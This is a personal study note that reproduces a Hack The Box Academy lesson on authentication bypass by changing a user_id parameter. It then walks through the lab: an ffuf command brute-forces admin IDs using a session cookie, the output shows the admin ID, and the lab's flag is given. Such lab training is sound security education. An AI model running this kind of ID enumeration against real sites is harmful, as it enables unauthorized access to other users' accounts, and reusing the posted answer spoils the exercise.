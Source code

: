 ﻿---
aliases:
  - Authentication Bypass via Parameter Modification
sticker: emoji//1faaa
---
An authentication implementation can be flawed if it depends on the presence or value of an HTTP parameter, introducing authentication vulnerabilities. As in the previous section, such vulnerabilities might lead to authentication and authorization bypasses, allowing for privilege escalation.

This type of vulnerability is closely related to authorization issues such asÂ `Insecure Direct Object Reference (IDOR)`Â vulnerabilities, which are covered in more detail in theÂ [Web Attacks](https://academy.hackthebox.com/module/details/134)Â module.

---

## Parameter Modification

Let us take a look at our target web application. This time, we are provided with credentials for the userÂ `htb-stdnt`. After logging in, we are redirected toÂ `/admin.php?user_id=183`:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_1.png)

In our web browser, we can see that we seem to be lacking privileges, as we can only see a part of the available data:

Â Â Â 

![](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_2.png)

To investigate the purpose of theÂ `user_id`Â parameter, let us remove it from our request toÂ `/admin.php`. When doing so, we are redirected back to the login screen atÂ `/index.php`, even though our session provided in theÂ `PHPSESSID`Â cookie is still valid:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_3.png)

Thus, we can assume that the parameterÂ `user_id`Â is related to authentication. We can bypass authentication entirely by accessing the URLÂ `/admin.php?user_id=183`Â directly:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_4.png)

Based on the parameter nameÂ `user_id`, we can infer that the parameter specifies theÂ ID of the userÂ accessing the page.Â If we can guess or brute-force the user ID of an administrator, weÂ might be able toÂ access the page with administrative privileges, thus revealing the admin information.Â We can use the techniques discussed in theÂ `Brute-Force Attacks`Â sections to obtain an administrator ID. Afterward, we can obtain administrative privileges by specifying the admin's user ID in theÂ `user_id`Â parameter.

---

## Final Remark

Note that many more advanced vulnerabilities can also lead to an authentication bypass, which we have not covered in this module but are covered by more advanced modules. For instance, Type Juggling leading to an authentication bypass is covered in theÂ [Whitebox Attacks](https://academy.hackthebox.com/module/details/205)Â module, how different injection vulnerabilities can lead to an authentication bypass is covered in theÂ [Injection Attacks](https://academy.hackthebox.com/module/details/204)Â andÂ [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33)Â modules, and logic bugs that can lead to an authentication bypass are covered in theÂ [Parameter Logic Bugs](https://academy.hackthebox.com/module/details/239)Â module.

# Question
---
![Pasted image 20250214182725.png](../../../../IMAGES/Pasted%20image%2020250214182725.png)

Once we've authenticated, we can see the following:

![Pasted image 20250214182813.png](../../../../IMAGES/Pasted%20image%2020250214182813.png)

We get assigned an user id in the URL and we're also told we don't have admin privileges, we can brute-force the admin id in the following way:

First, create a wordlist of digits from 1 to 1000:

```bash
seq 1 1000 > digits.txt
```

Now, do the following ffuf command:

```
ffuf -w digits.txt -u "http://IP:PORT/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=our_cookie" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w digits.txt -u "http://94.237.48.103:39253/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=9i2epg991j6af0vvgp56v9rnav" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.48.103:39253/admin.php?user_id=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/digits.txt
 :: Header           : Cookie: PHPSESSID=9i2epg991j6af0vvgp56v9rnav
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Could not load admin data. Please check your privileges
________________________________________________

372                     [Status: 200, Size: 14465, Words: 4165, Lines: 429, Duration: 2667ms]
```

So, admin user's id is `372`, let's log into admin panel:

![Pasted image 20250214183900.png](../../../../IMAGES/Pasted%20image%2020250214183900.png)

Flag is:

```
HTB{63593317426484ea6d270c2159335780}
```
